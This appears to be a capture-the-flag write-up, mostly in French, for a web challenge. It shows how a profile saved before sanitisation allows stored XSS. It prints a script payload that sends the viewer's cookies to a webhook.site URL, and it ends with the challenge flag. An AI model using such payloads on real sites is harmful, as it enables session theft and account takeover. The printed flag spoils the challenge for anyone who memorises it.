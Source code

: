# Internal blog

**Web**

You’ve received an anonymous tip from the Airship Mail Delivery Company claiming that a seemingly legitimate website is actually a front for trading stolen submarine mechanical parts. Yeah, that’s oddly specific...

The localhost port is 3000. Take a closer look and see if you can uncover anything suspicious. The flag to find is the bot's cookie.

---

## Préambule

En arrivant sur le site, bien que nous n'ayons pas de source; on peut avoir une partie du code source grâce à un leak.
![[S1.png]]

On peut voir dans cette source, tout en haut, que le profil est sauvegardé avant le check de sanitize.
Si le sanitize fail, le profil est donc quand même sauvegardé.

## Tests

On va donc se créer un profil en essayant de partout de faire des injections, voir ce qui passe.

![[Pasted image 20250126214535.png]]

Après la création de ce profil, qui va "échouer", on peut quand même aller à l'URL du profil pour le consulter, puisqu'il a été sauvegardé.

On voit sur cette URL que le champ Name n'est pas sanitized, on va donc pouvoir mettre une balise script à l'intérieur afin de récupérer les cookies des utilisateurs qui consultent ce profil.
![[Pasted image 20250126214959.png]]

On utilise https://webhook.site/ pour se créer un point de webhook pour pouvoir récupérer les cookies.

On créé le script suivant :
```html
<script>document.location = "https://webhook.site/2779f411-a895-496e-9525-803b72e50737/" + document.cookie</script>
```
...qu'on rentre dans le champ name

Il faut ensuite que l'admin vienne voir notre page. Pour cela, comme indiqué sur la page d'accueil, il nous suffit de créer un article.
![[Pasted image 20250126215824.png]]

Après avoir créé l'article, on voit dans notre webhook qu'on a reçu une requête
![[Pasted image 20250126220031.png]]

**Flag : HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}**

nhy.